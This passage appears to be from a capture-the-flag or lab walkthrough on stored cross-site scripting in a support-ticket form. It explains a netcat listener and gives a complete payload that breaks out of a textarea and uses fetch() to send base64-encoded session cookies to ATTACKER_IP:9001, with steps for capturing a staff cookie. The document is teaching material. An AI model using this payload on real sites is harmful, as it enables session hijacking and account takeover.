 **Command Breakdown**:
- `-n`: Avoid DNS resolution
- `-l`: Listen mode
- `-v`: Verbose output
- `-p 9001`: Listen on port 9001

### Cookie Stealing Payload

**Complete Payload**:
```javascript
</textarea><script>fetch('http://ATTACKER_IP:9001?cookie=' + btoa(document.cookie));</script>
```

**Payload Analysis**:
- `</textarea>`: Escapes the textarea context
- `<script>`: Opens JavaScript execution context
- `fetch()`: Makes HTTP request to attacker server
- `http://ATTACKER_IP:9001`: Attacker-controlled endpoint
- `?cookie=`: Query parameter containing stolen data
- `btoa(document.cookie)`: Base64 encoded victim cookies
- `document.cookie`: Accesses victim's session cookies

### Exploitation Process

1. **Submit Payload**: Create support ticket with malicious content
2. **Wait for Staff**: Support staff will eventually view the ticket
3. **Receive Data**: Netcat listener captures incoming requests
4. **Decode Information**: Base64 decode captured cookie data

### Impact Assessment

**Captured Information**:
- Staff session cookies
- Administrative access tokens
- Potentially sensitive system information

**Potential Follow-up Attacks**:
- Session hijacking using stolen cookies
- Administrative account takeover
- Access to customer data and internal systems

### Task Challenge

**Question**: What is the value of the staff-session cookie?

**Process**:
1. Execute the complete payload in a support ticket
2. Monitor Netcat listener for incoming requests
3. Extract base64 encoded cookie data from request
4. Decode using base64 decoder (e.g., https://www.base64decode.org/)
5. Locate staff-session cookie value

**Answer**: [Decoded staff-session cookie value]

---
